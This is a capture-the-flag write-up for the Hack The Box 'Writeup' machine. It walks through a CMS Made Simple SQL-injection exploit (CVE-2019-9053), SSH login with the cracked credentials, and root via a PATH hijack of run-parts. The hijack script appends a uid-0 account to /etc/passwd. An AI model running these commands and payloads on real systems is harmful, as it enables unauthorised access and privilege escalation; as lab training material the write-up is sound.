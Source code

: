 # HTB-Writeup

Box: Writeup  
IP: 10.10.10.138

Browsing to ```http://10.10.10.138/``` we see a warning about an 'Eeyore DoS protection script' so we probably shouldn't do any dirbusting.

The ```/robots.txt``` file has a disallow in place for ```/writeup/``` so of course we'll want to check that out. 

The source code for ```http://10.10.10.138/writeup/``` shows the website is using CMS Made Simple. Running ```searchsploit CMS Made Simple``` shows a lot of results so we need to find out what version we're up against if we want to skid through. The copyright from the source code says 2019 so doing some searching indicates that 2.2.9 or 2.2.10 are the only versions released in that year. This seems like a safe starting point.

With a bit of research, and help from searchsploit, we see that CVE-2019-9053 is a SQL Inject vuln for 2.2.10 with an exploit already available in python. We'll try this one out, but always a good idea to read the source code first though to see what we're doing.

First we can tell that it's written in Python2, but we also want to know what the actual attack is. Looking at ```payload=``` we can see it's a blind time-based SQL injection attack. A good indicator of this is the included ```sleep()``` function. There is also a function to crack the hash once obtained, so we'll give that a shot before trying hashcat. The cracking functionality seems pretty straightforward, running through a provided list using a salt+pw format. I'm going to use the rockyou list for this since everyone should already have a copy.

Let's try the exploit: ```python 46635.py -u http://10.10.10.138/writeup/ --crack -w rockyou.txt```


Password found and cracked!

```
[+] Salt for password found: *****
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: *****
[+] Password cracked: *****
```
*I removed the password, salt, and hash so I don't spoil all of the fun*


Now let's use this to SSH into the box ```ssh jkr@10.10.10.138```

Success, user account owned, so let's grab our first flag ```cat user.txt```

Always a good idea to get some basic ```id``` info to start, so we'll do that and save the information for later.

```uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)```

One thing to note though is the staff membership. In Debian this allows local modification to the system, so may be useful!

Ok so owning user was easy but now we need to get root. There is a great tool called ```pspy``` that we'll use for deeper analysis. It sets up inotify FileSystemWatchers to scan ```/proc/``` and also watch ```/usr``` for short-lived processes. This is a really great enumaration tool to have in your arsenal for path injection and privilege escalation vulns.

We'll copy pspy over to the server so we can use it ```scp pspy32 jkr@10.10.10.138:/home/jkr```

Once it's on the server we'll need to make it executable ```chmod +x pspy32```

Then we'll launch it to monitor what's going on ```./pspy32```

Start a new SSH session so we can monitor that action first. It's always a good idea to make sure both terminals are viewable so you can see new processes as they happen.

After playing around a bit we can see that after every successful SSH auth the following is run:

```sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new```

Let's go down the rabbit hole and see if we can abuse it. First of all we can see that something called ```run-parts``` gets executed every time. We can also see that it's being executed by relative path so we can probably hijack this.

If we dig deeper with ```which run-parts``` we see that by default it's in ```/bin/```, but if you look closely at the way env sets the path at login you'll see something interesting. When the path is set, ```/usr/local/bin``` is called before ```/usr/bin``` 

We saw earlier that our account was a member of staff, which we can see gives us the write access we need ```find / -group staff 2>/dev/null```

This means that we should be able to put our code in ```/usr/local/bin``` and have it execute next time we SSH into the box.

Time for some path injection.

Let's create a bash script that adds a new root user, then have that execute.

First we will use openssl to create a hash of our desired password ```openssl passwd writeup```

Now create the bash file, add our payload, and make it executable.

```cd /usr/local/bin/```

Create the hijack file: ```nano run-parts```

Add our payload text:
```
#!/bin/bash
echo 'rooot:qzhFLYLV9Mkkg:0:0:root:/root:/bin/bash' >> /etc/passwd
```

And make it executable: ```chmod +x run-parts``` 

Now start a new SSH session to trigger our script, and check the results with ```cat /etc/passwd```

You should see our new ```rooot``` user added with the correct UID and hash, so let's grab the flag.

```
su rooot
cd /root/
cat root.txt
```


"The only way of discovering the limits of the possible is to venture a little way past them into the impossible" - Arthur C. Clarke
